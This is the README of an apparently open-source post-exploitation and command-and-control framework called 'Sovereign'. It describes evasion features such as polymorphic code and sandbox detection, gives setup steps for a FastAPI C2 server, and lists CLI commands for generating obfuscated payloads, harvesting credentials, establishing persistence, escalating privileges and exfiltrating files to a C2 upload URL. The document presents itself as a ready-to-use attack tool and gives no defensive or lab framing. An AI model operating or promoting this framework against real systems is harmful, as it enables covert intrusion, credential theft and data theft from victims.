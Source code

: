 # Sovereign Post-Exploitation Framework

This framework provides advanced post-exploitation capabilities with a focus on evasion and automation.

## Features

- **Enhanced Evasion Techniques**: Polymorphic code, sandbox detection, time-based evasion.
- **Advanced Post-Exploitation Modules**: Credential harvesting, persistence, privilege escalation, reconnaissance, data exfiltration.
- **Secure Communication**: Encrypted communication between agent and C2 server.
- **Modular Design**: Easily add new modules and functionalities.
- **Logging and Reporting**: Detailed logging and report generation.

## Directory Structure

- **agent/**: Contains the PowerShell agent script and various payloads for different platforms.
- **c2_server/**: Contains the FastAPI C2 server script and required modules for post-exploitation tasks.
- **cli/**: Contains the CLI script for managing the framework and its commands.

## Setup

### Setting Up the C2 Server

1. **Create a Python virtual environment and activate it**:
    ```bash
    python -m venv venv
    source venv/bin/activate  # On Windows: venv\Scripts\activate
    ```

2. **Install the required dependencies**:
    ```bash
    pip install -r c2_server/requirements.txt
    ```

3. **Run the C2 server**:
    ```bash
    python c2_server/c2_server.py
    ```

### Using the CLI

The CLI provides various commands to interact with the framework.

#### List all registered agents:
```bash
python cli/cli.py list_agents
```

#### Send a command to a specific agent:
```bash
python cli/cli.py send_command --agent_id AGENT_ID --command "Your command here"
```

#### Generate an obfuscated payload for a specific platform:
```bash
python cli/cli.py generate_payload --platform PLATFORM
```

#### Harvest credentials:
```bash
python cli/cli.py harvest_credentials
```

#### Establish persistence:
```bash
python cli/cli.py establish_persistence
```

#### Escalate privileges:
```bash
python cli/cli.py escalate_privileges
```

#### Gather system information:
```bash
python cli/cli.py gather_system_info
```

#### Exfiltrate data:
```bash
python cli/cli.py exfiltrate_data --file_path /path/to/file --c2_url https://your-c2-server.com/upload
```

### Example Commands

1. **Listing all registered agents**:
    ```bash
    python cli/cli.py list_agents
    ```

2. **Sending a command to a specific agent**:
    ```bash
    python cli/cli.py send_command --agent_id 1234-5678-9101-1121 --command "whoami"
    ```

3. **Generating a payload for Windows**:
    ```bash
    python cli/cli.py generate_payload --platform windows
    ```

4. **Harvesting credentials**:
    ```bash
    python cli/cli.py harvest_credentials
    ```

5. **Establishing persistence**:
    ```bash
    python cli/cli.py establish_persistence
    ```

6. **Escalating privileges**:
    ```bash
    python cli/cli.py escalate_privileges
    ```

7. **Gathering system information**:
    ```bash
    python cli/cli.py gather_system_info
    ```

8. **Exfiltrating data**:
    ```bash
    python cli/cli.py exfiltrate_data --file_path /path/to/file --c2_url https://your-c2-server.com/upload
    ```

### Logging and Reporting

Logs are stored in the `c2_server.log` file located in the `c2_server` directory. This file contains detailed information about agent activities and commands executed.

### Adding New Modules

To add new post-exploitation modules, create a new Python file in the `c2_server/modules` directory and implement the desired functionality. Update the CLI script to include commands for the new module.

### Contribution

Contributions to the Sovereign framework are welcome. Please submit a pull request with a detailed description of your changes.

### License

This project is licensed under the MIT License.
